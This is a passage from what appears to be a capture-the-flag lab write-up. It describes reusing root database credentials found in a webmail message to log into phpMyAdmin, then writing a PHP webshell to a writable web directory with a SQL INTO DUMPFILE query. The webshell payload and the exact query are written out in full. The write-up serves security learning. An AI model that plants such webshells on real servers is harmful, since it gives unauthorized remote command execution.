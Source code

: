 On the mail *DB ACCESS* we find credentials, **root/Fg-'kKXBj87E:aJ$** let's try it on the *phpmyadmin* page.\
![](./images/lmezard_webmail_db_access.png)

Bingo again ! We have total control on the database since we are *root*.
![](./images/root_phpmyadmin.png)

Nothing interesting in the database, but we could try something else. Since we are root we can execute som sql queries,
and if we are lucky we can upload a webshell on the server by executing `SELECT "<?php passthru($_GET['cmd']); ?>" INTO DUMPFILE '<directory>';`

After trying a lot of path, there is only one path where we got permission to create file, *templates_c*. Let's do it !

- `SELECT "<?php passthru($_GET['cmd']); ?>" INTO DUMPFILE '/var/www/forum/templates_c/webshell.php'`
